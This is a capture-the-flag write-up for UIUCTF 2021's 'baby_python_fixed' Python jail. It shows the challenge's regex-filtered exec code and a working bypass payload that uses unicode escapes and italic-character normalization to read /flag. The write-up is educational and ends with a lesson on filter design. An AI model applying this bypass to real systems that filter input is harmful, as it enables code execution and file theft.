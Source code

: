 # UIUCTF 2021 - baby_python_fixed Writeup
- Type - Jail
- Name - baby_python_fixed
- Points - 133

## Description
```
whoops, I made a typo on the other chal. it's probably impossible, right? Python 
version is 3.8.10 and flag is at /flag

nc baby-python-fixed.chal.uiuc.tf 1337

author: tow_nater

[challenge.py]
```

## Writeup
The Python file included in the description was a very short but restrictive 4-line file:

```
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

This script allows you to run any code that you want, the only characters you can't use are whitespace or lowercase characters. Since practically all of Python is in lowercase (and is case-sensitive), this obviously presented quite a challenge. After racking our brains and doing quite a bit of research, we had crossed off a couple of ideas like Python bytecode (you can't actually run it, I don't think) and a solution from a CTF in like 2013 where they ran code only using symbols (the key to it was deprecated in Python 3.x). One idea that we had stuck with us, but we couldn't quite finish it yet. We knew we could encode characters as hex values (`a` as `\x61`), but that still used a lowercase letter. After some investigation, I found we could use 8-digit Unicode characters (`a` as `\U00000061`). 

I wrote a small Python script that takes input and converts it to Unicode so we could craft our payload:

```
input = input()

print("'", end="")
for letter in input:
    print(hex(ord(letter)).replace("0x", "\\U000000").upper(), end="")

print("'")
```

Using this script, we crafted our payload `print(open("/flag","r").read())` as `'\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029'`. All we needed was a way to run it! Python accepts strings and doesn't throw an error, but it doesn't run it. It wasn't until later that we realized we could use italic characters and have it execute our payload string. Using [an Italic generator](https://lingojam.com/ItalicTextGenerator), we generated `𝘦𝘹𝘦𝘤`, and our final payload was `𝘦𝘹𝘦𝘤('\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029')`. We inserted this payload into the netcat session and it was executed and worked!

<img src="gotFlag.png" width="800px">

**Flag:** `uiuctf{unicode_normalization_is_not_normal_d2f674}`

## Real-World Application
This comes to show how difficult it is to filter invalid inputs. Understanding character encodings and how specific languages and applications handle them is very important when attempting to stop injection attacks. For example, to prevent someone from doing a SQL injection attack, you may block them from using a single quote `'`, but what about an italic single quote? While this may or may not work, my point still stands - you have to be very careful and thoughtful when creating filters. 
